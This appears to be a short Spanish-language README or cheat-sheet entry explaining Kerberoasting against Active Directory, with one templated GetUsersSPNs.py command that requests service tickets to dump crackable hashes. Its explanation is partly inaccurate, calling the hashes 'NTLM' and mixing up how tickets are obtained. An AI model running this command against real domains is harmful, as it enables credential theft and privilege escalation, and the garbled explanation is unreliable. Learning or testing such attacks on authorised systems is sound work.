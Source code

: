 # Que es un ataque de Kerberoasting?
Kerberoasting es un ataque que se centra en obtener acceso a mas recursos mediante una escalada de privilegios, esto permite a los atacantes, hacerse pasar por usuarios del dominio sin privilegios con atributos `SPN` y solicitar tickets `TGS` relacionados con el servicio de la memoria en un intento de descifrar los hashes `NTLM`.

# Efectuar ataque con GetUsersSPNs
Este ataque nos permite dumpear el hash de los usuarios que sean vulnerables.
```
python GetUsersSPNs.py <DOMINIO>/<usuario>:<contraseña> -dc-ip <ip_DC> -request
```
